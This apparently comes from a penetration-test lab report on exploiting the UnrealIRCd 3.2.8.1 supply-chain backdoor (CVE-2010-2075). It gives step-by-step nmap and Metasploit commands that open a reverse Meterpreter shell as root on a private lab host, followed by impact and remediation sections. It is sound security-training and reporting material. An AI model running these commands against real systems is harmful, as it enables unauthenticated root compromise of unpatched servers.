





# Finding 3: UnrealIRCd 3.2.8.1 — Backdoor Command Execution

| | |
|---|---|
| **Service** | IRC (Port 6667) |
| **Version** | UnrealIRCd 3.2.8.1 |
| **CVE** | CVE-2010-2075 |
| **CWE** | CWE-506 (Embedded Malicious Code) |
| **Severity** | Critical |
| **CVSS (approx.)** | 10.0 (Critical) — unauthenticated remote code execution as root |

---

## 1. Methodology

**Step 1 — Confirm connectivity to the target**

```
ping -c 4 192.168.56.102
```

Verified the target (`192.168.56.102`) was reachable from the attacker machine (`192.168.56.101`) with 0% packet loss.



**Step 2 — Full service/version enumeration**

```
nmap -sV -sC 192.168.56.102
```

Full scan confirmed multiple open services on the target, including FTP, SSH, Telnet, and SMTP. Port 6667 (IRC) was further isolated to identify the exact UnrealIRCd version running.



**Step 3 — Identify the Metasploit module**

```
msfconsole
search type:exploit UnrealIRCd
```

Result:
```
exploit/unix/irc/unreal_ircd_3281_backdoor    2010-06-12   excellent   Yes   UnrealIRCD 3.2.8.1 Backdoor Command Execution
```

This confirmed UnrealIRCd 3.2.8.1 was running a version distributed with a known **trojaned source archive** — the official download was compromised on the distribution server, with a backdoor silently added to the codebase between Nov 2009 and June 2010.



---

## 2. Exploitation

**Step 1 — Load the module and verify options**

```
use exploit/unix/irc/unreal_ircd_3281_backdoor
options
```

Confirmed default `RPORT` of `6667` matched the discovered IRC service.



**Step 2 — Configure and run the exploit**

```
set RHOST 192.168.56.102
set LHOST 192.168.56.101
exploit
```

The backdoor works by monitoring for a specific magic byte sequence (`AB` prefixed) sent to the IRC service, which is then passed directly to a system shell for execution.

```
[*] Started reverse TCP handler on 192.168.56.101:4444
[*] 192.168.56.102:6667 - Connected to 192.168.56.102:6667
[*] 192.168.56.102:6667 - Sending IRC backdoor command
[*] Sending stage (1062760 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.101:4444 → 192.168.56.102:52857)
```

**Step 3 — Verify access level**

```
meterpreter > shell
whoami
root

id
uid=0(root) gid=0(root)
```

This confirms **unauthenticated remote root access** was achieved.



---

## 3. Impact

- **Full compromise** of the target system with root privileges
- Attacker can read/modify/delete any file, create new user accounts, pivot to other systems on the network, or install persistent malware
- No authentication or user interaction required — fully remote and unauthenticated
- This is the second finding in this lab (alongside vsftpd) stemming from a **supply-chain compromise**, reinforcing the importance of verifying software integrity at the source

---

## 4. Remediation

- Immediately upgrade to a patched, verified UnrealIRCd release sourced only from the official repository
- Verify checksums/GPG signatures of any downloaded package before deployment to detect tampering
- Restrict IRC service exposure to trusted networks only; disable if not business-critical
- Implement file integrity monitoring on production servers to detect unauthorized binary or source modification
- Regularly audit third-party software supply chains, especially for older or less actively maintained services
